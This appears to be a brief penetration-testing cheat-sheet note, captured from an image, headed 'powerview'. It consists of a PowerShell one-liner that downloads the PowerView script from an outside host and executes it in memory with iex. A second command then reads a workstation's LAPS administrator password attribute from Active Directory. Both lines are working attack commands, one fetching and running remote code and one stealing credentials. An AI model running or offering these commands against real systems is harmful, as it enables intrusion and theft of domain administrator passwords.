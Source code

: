 ## powerview

``` powershell
((New-Object Net.WebClient).DownloadString('http://192.168.49.108:8080/PowerView.ps1')) | iex 
Get-DomainObject ws02 -Properties "ms-mcs-AdmPwd"
```